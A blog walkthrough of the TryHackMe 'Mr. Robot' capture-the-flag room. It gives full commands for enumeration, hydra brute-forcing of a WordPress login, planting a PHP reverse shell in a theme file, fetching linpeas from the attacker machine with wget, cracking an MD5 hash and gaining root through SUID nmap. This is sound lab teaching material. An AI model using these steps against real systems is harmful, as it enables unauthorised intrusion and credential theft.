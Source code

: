 ```yaml
---
layout: post
title: " Mr. Robot - TryHackMe"
date: 2020-07-12
excerpt: "Walkthrough for Mr. Robot on TryHackme"
tags: [Mr. Robot, TryHackMe]
comments: false
---
```


Below are the steps to get the 3 flags on the Mr. Robot box on [TryHackMe](https://www.tryhackme.com).

First, let's run nmap with **nmap -sC -sV -O -T4 [machine ip]**. This will return ssh which is marked as closed, and both ports 80 and 443 which are open.

![Mr. Robot 1](/assets/img/MrRobot1.png)

Launching both sites leads to the same terminal window which seems to have some of the propaganda from fsociety. Let's use gobuster to enumerate the webserver with **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt**.

After a bit, several interesting results come up as shown below.

![Mr. Robot 2](/assets/img/MrRobot2.png)

The hint for the first question also mentions **robots**, so let's look at **http://[machine ip]/robots.txt**. This leads to the following:

![Mr. Robot 3](/assets/img/MrRobot3.png)

Let's visit key-1-of-3.txt by going to **http://[machine ip]/key-1-of-3.txt**. This is where you will find the first key to this challenge.

![Mr. Robot 3 key1](/assets/img/MrRobot4.png)

Next, let's go to **http://[machine ip]/fsocity.dic**. This is a dictionary file with a huge list of words that may prove useful later on. The other useful thing we found was that this appears to be a WordPress site, so let's go to **http://[machine ip]/wp-login**. This brings you to a WordPress login page as expected.

![Mr. Robot 5](/assets/img/MrRobot5.png)

WordPress contains a pretty poor security practice where it will tell you if a username does not exist. For example, I attempted with the user admin, and received this error message.

![Mr. Robot 6](/assets/img/MrRobot6.png)

In a real world scenario, you would probably create a list of users with cewl based off of the website or use some other dictionary file, but in this case, I guessed a few characters from the television series, which led to **Elliot** being uncovered as the login name.

![Mr. Robot 7](/assets/img/MrRobot7.png)

Now that we had a username to login with, let's use hydra to brute force the password. The fsocity.dic file we saved earlier should be a good place to start, however, it has over 800,000 records in it. I assumed there were some duplicates, so I used sort and uniq to make it a more manageable list with. The command to run is **sort fsocity.dic|uniq > UniquePasswords.txt**. This reduced the list down to around 11,000 unique entries and saved it to UniquePasswords.txt, which will run much quicker when brute forcing passwords. 

![Mr. Robot 8](/assets/img/MrRobot8.png)

The command to brute force in hydra is **hydra -l Elliot -P ~/Downloads/UniquePasswords.txt [machine ip] -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'**. This will return Elliot's password.

![Mr. Robot 9](/assets/img/MrRobot9.png)

Now that we have Elliot's password, let's login to the WordPress site. Once here, let's upload a reverse PHP shell. The one I recommend using is from [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Adjust the IP/Port to reflect your attacker machine's IP and the port you wish to connect with and save the shell. Next, let's click on **Appearance** followed by **Editor** on the left hand side. Choose one of the existing php files (I used **404.php**) to view it's contents, delete the contents of this file, and paste the reverse shell into that file.

![Mr. Robot 10](/assets/img/MrRobot10.png)

When done, click on **Update File** at the bottom of the file to save it. 

![Mr. Robot 11](/assets/img/MrRobot11.png)

On your attacker pc, run **nc -nvlp [port number]** where port number is the one selected in the php reverse shell earlier. Now, try to navigate to a random page to trigger a 404 error, which should launch the reverse shell. 

![](/assets/img/MrRobot12.png)

![Mr. Robot 13](/assets/img/MrRobot13.png)

We now have a reverse shell. **whoami** reveals we are running as user **daemon** in the root directory. Let's navigate to home with **cd home** and run **ls** to view it's contents. There is a **robot** user folder here. Let's run **cd robot** followed by **ls** and we will see **key-2-of-3.txt** and **password.raw-md5**. **cat key-2-of-3.txt** will give you the 2nd key to this challenge, but we are not able to access it as daemon.

![Mr. Robot 14](/assets/img/MrRobot14.png)

Let's **cat** **password.raw-md5** and we will see that we have the hash for robot. 

![Mr. Robot 15](/assets/img/MrRobot15.png)

Let's copy and save this so we can crack it with john. Once you saved this locally (I saved it to a file called **robothash.txt**), run the following command: **john robothash.txt --format="Raw-MD5" -wordlist=/usr/share/wordlists/rockyou.txt**. Within a few moments you will crack this password. Raw-MD5 was selected as the format based on the extension in the file the hash came from (password.raw-md5).

![Mr. Robot 16](/assets/img/MrRobot16.png)

Since ssh is blocked, let's try to run **su robot** to swap from daemon to the robot user . We aren't able to because we're not running a TTY terminal.

![Mr. Robot 17](/assets/img/MrRobot17.png)

Let's run **python -c 'import pty; pty.spawn("/bin/sh")'** to upgrade our shell and run **su robot** again. Now we are able to swap over to robot with the password we uncovered with john.

![Mr. Robot 18](/assets/img/MrRobot18.png)

Let's run **cat key-2-of-3.txt** and we are able to uncover this flag.

![Mr. Robot 19](/assets/img/MrRobot19.png)

At this point, we need to enumerate to figure out how we are going to escalate privileges to root. On our attacker machine, lets serve up a python server with **python3 -m http.server**. Next, on our victim machine, run **cd /tmp** followed by **wget http://[your attacker ip]:8000/linpeas.sh** to download linpeas to the tmp directory of our victim. Next, run **chmod 777 linpeas.sh** to make it executable.

![Mr. Robot 20](/assets/img/MrRobot20.png)

Next, run **./linpeas.sh** to start enumerating the host. Partially through the script there is a list of SUID programs, and **nmap** stands out.

![Mr. Robot 21](/assets/img/MrRobot21.png)

Let's navigate to that folder with **cd /usr/local/bin** and run **nmap --help**. This is an older version of nmap (3.81), and it has an interactive mode that can be ran with the --interactive flag. 

![Mr. Robot 22](/assets/img/MrRobot22.png)

Let's run **nmap --interactive**. This is an old version of nmap, and this can be utilized to get a root shell since it is running as root due to the SUID flag. The command to run once in interactive mode is **!sh**

![Mr. Robot 23](/assets/img/MrRobot23.png)

Let's run **cd /root** followed by **ls**. You will see the 3rd key file there. Run **cat key-3-of-3.txt** to get the final key!

![Mr. Robot 24](/assets/img/MrRobot24.png)
